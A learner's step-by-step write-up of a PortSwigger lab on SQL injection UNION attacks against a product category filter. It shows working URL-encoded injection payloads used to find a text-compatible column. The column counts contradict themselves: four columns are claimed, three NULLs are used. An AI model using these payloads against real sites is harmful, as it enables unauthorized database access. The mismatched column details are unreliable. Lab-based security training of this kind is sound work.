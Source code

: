 
# SQL injection UNION attack, finding a column containing text

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

## The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data

#sql_injection_union
___

step 1

click on any category to filter the result and send to repeater

![screnshot](./images/lab4_lifestyle_category.png)

step 2

here query returns four columns so you have to use `' UNION SELECT NULL,NULL,NULL--` 
`' UNION SELECT NULL,NULL,NULL--` => (URL Encoded) `'+UNION+SELECT+NULL,NULL,NULL--`
add  `'+UNION+SELECT+NULL,NULL,NULL--` at the end 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](./images/lab4_lifestyle_null_null_null.png)

step 3

since query returns four columns so you have to use
>' UNION SELECT 'a',NULL,NULL,NULL-- 
>' UNION SELECT NULL,'a',NULL,NULL-- 
>' UNION SELECT NULL,NULL,'a',NULL-- 
>' UNION SELECT NULL,NULL,NULL,'a'--

If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
`Conversion failed when converting the varchar value 'a' to data type int.`

first payload
add `'+UNION+SELECT+'a',NULL,NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+'a',NULL,NULL--`

![screnshot](./images/lab4_lifestyle_a_null_null.png)

step 4

`/filter?category=Lifestyle'+UNION+SELECT+NULL,'a',NULL--`
you will notice `a` added in the fourth column

![screnshot](./images/lab4_lifestyle_null_a_null.png)

step 5

since database retrieve string is `'RknAON'` it might be different in your case
replace a with `'RknAON'`
final payload will be `'+UNION+SELECT+NULL,'RknAON',NULL--` 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,'RknAON',NULL--`

![screnshot](./images/lab4_lifetyle_a_rknaon_null.png)

step 6

to solve the lab copy  `'+UNION+SELECT+NULL,'RknAON',NULL--` 
add at the end of URL press enter your lab will solved

![screnshot](./images/lab4_solved_lab.png)